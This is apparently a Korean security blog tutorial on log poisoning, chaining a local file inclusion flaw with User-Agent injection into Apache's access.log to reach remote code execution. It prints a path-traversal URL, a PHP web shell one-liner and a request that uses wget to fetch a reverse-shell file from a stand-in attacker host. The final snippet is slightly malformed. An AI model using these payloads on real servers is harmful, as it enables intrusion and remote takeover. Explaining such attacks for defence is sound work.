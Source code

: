 ```yaml
---
layout: single
title: (Web-Vuln) Log Poisoning
categories: Web-vuln
tag: [log injection, RCE, LFI, log poisoning]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```

# 해당 취약점은 무엇인가?
>log Poisoning은 웹 어플리케이션에서 발생하는 취약점으로, LFI 취약점이 존재하며, Log 파일을 열람이 가능할 때 발생하며, log injection과 LFI 취약점이 선행되어야 한다. 이를 통해 RCE 까지로 이어질 수 있는 취약점이다.

***

# 공격 앤드포인트 탐색
해당 취약점은 서버에 존재하는 로그파일에 사용자의 정보 및 입력값이 쓰여질 때 발생할 수 있으므로, LFI 취약점이 존재해야한다.
```
http://victim.com/lifendpoint?view=
```
위와 같이 특정 파일을 Include하는 기능이 존재 한다고 가정해보자.
View 파라미터에 LFI 취약점이 존재하고, apache2 서비스가 동작중일 경우 일반적으로 /var/log/apache2/access.log 로그파일에 접근할 수 있다.
access.log 파일의 경우 웹 서버에서 접근 로그파일로, 사용자의 User-Agent 헤더 정보가 기록된다.
이 떄 User-Agent 값을 악의적인 사용자가 임의로 변경하게되면 그 정보 혹은 결과값이 access.log 파일에 기록된다(log injection).
## LFI 취약점을 통한 Log 파일 열람 
해당 시스템에 Apachee2 서비스가 동작 중이라면 access.log가 존재한다.
```
http://victim.com/lifendpoint?view=../../../../var/log/apache2/access.log
```
위와 같이 LFI 취약점이 존재할 경우 경로이동을 통해 access.log 파일에 접근할 수 있다.
![그림1-1](/assets/image/log_poisoning/image.png)
해당 access.log 파일에는 사용자의 User-Agent 값이 담기게 된다.
이 떄 악의 적인 사용자가 User-Agent 에 악성 코드를 삽입할 수 있다.

만약 해당 타겟시스템의 서버측 언어가 PHP 로 동작할 경우
```<?php system($_GET['cmd']);?> ```와 같이 php의 시스템 명령이 가능한 코드를 삽입하게 되면, 서버에서 User-Agent 헤더를 해석하는 과정에서 php 코드로 인식하여 이를 실행하게 된다.
즉 ***<span style="color:red"> RCE 취약점 까지 이어질 수 있는 치명적인 취약점이라고 볼 수 있다. </span>*** 

즉, 공격자 PC에서 리버스 커넥션 기능을 하는 악성 코드를 생서 후 웹서버를 구동시켜놓고, 해당 User-Agent 헤더에 공격자 PC에서 악성코드를 가져와 실행 시키는 명령어를 실행실 수 있게 된다.

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=wget http://attacker/reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```